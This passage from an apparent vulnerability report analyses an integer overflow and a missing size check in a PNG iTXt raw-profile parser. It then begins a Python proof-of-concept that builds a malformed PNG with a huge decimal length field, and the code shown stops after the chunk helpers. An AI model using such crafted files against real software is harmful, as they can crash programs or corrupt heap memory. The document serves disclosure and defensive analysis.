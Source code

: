 Problems:

* There is **no check** that `10 * length + digit` overflows `size_t`. On wrap-around (or extremely large values), `length` may end up much smaller than intended while the hex data following the field is large — so subsequent writes will write past the allocated buffer.
* There is **no immediate sanity cap** on the parsed decimal length before `info.alloc(length)` is called. Even if `info.alloc()` fails, some different allocator implementations or memory configurations might lead to partial allocation or later heap corruption.
* Later code assumes `length <= (remaining chars)/2` but that check is performed after the decimal is parsed — the check exists in the function, but it is *not* sufficient to prevent integer overflow during parsing.

This combination allows either a straightforward memory/resource exhaustion (attempted allocation of e.g. 10 billion bytes) or a heap-based buffer overflow (when decimal parsing wraps).

Example root cause lines: the decimal parse + `info.alloc(length)` sequence (the vulnerability lives there).

---

## 3) PoC (Python) — builds a valid PNG with malicious iTXt

**What the PoC does**

* Create a syntactically valid PNG: signature, an `IHDR` chunk, an `iTXt` chunk (keyword = `"Raw profile type exif"`), an `IDAT` chunk (small compressed block), and `IEND`.
* The iTXt text payload contains an attacker-specified decimal length of `9999999999` (ten nines), followed by a tiny hex payload (e.g. `deadbeef`). This will cause `readRawProfile` to attempt to `info.alloc(9999999999)` (or to perform an overflow), leading to crash or heap corruption.

Save this script as `make_poc_valid_png.py` and run `python3 make_poc_valid_png.py > poc-itxt.png`.

```python
#!/usr/bin/env python3
# make_poc_valid_png.py
# Produces a valid PNG with: PNG sig, IHDR, iTXt(keyword="Raw profile type exif"), small IDAT, IEND
# The iTXt text contains a malicious decimal length field.
# Usage: python3 make_poc_valid_png.py > poc-itxt.png

import sys
import zlib
from struct import pack

def crc32_bytes(b: bytes) -> bytes:
    return pack(">I", zlib.crc32(b) & 0xffffffff)

def make_chunk(chunk_type: bytes, data: bytes) -> bytes:
    return pack(">I", len(data)) + chunk_type + data + crc32_bytes(chunk_type + data)

def make_ihdr(width=1, height=1, bit_depth=8, color_type=2):
    # IHDR must be 13 bytes: width(4) height(4) bit_depth color_type compression filter interlace
    data = pack(">I", width) + pack(">I", height) + bytes([bit_depth, color_type, 0, 0, 0])
    return make_chunk(b'IHDR', data)

def make_itxt(keyword: bytes, text_payload: bytes, compressed=False):
    # iTXt: keyword\0 + compressionFlag(1) + compressionMethod(1) + languageTag\0 + translatedKeyword\0 + text
    compressionFlag = b'\x00'
    compressionMethod = b'\x00'
    languageTag = b''
    translatedKeyword = b''
    header = keyword + b'\x00' + compressionFlag + compressionMethod + languageTag + b'\x00' + translatedKeyword + b'\x00'
    chunk_data = header + text_payload
    return make_chunk(b'iTXt', chunk_data)

```